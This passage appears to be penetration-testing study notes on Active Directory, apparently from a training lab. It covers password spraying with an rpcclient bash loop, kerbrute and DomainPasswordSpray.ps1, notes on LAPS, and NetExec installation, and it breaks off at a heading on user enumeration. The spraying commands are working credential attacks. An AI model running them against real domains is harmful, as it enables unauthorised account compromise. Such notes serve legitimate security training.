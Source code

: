 Bash one liner to spray password with `rpcclient`:
```sh
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

Using Kerbrute to spray password:  
```sh
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

<br />

## Password Spraying from Windows

`DomainPasswordSpray.ps1` :
```PowerShell
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
# If you don't supply a -UserList flag, the tool will generate a list for you
```

<br />

## LAPS

Local Administrator Password Solution (LAPS) is used to randomize and rotate local administrators passwords on Windows hosts and prevent lateral movement.  

We can see which domain users can read the LAPS password set for machines with LAPS installed and what machines have LAPS installed.  

<br />

## CrackMapExec

CrackMapExec is a powerful toolset to help with assessing AD environments  

It uses packages from Impacket and PowerSploit toolkits to perform its functions  

CrackMapExec is not supported anymore, and can be a major pain to install  

NetExec is a new replacement for CrackMapExec

You are better off installing and running NetExec as root  

### **Installing NetExec**

- `sudo su -`
- `git clone https://github.com/Pennyw0rth/NetExec`
- `cd NetExec`
- `python3 -m pip install .`
- If you have dependency issues, try it in a Python venv

### **NetExec - Domain User Enumeration**
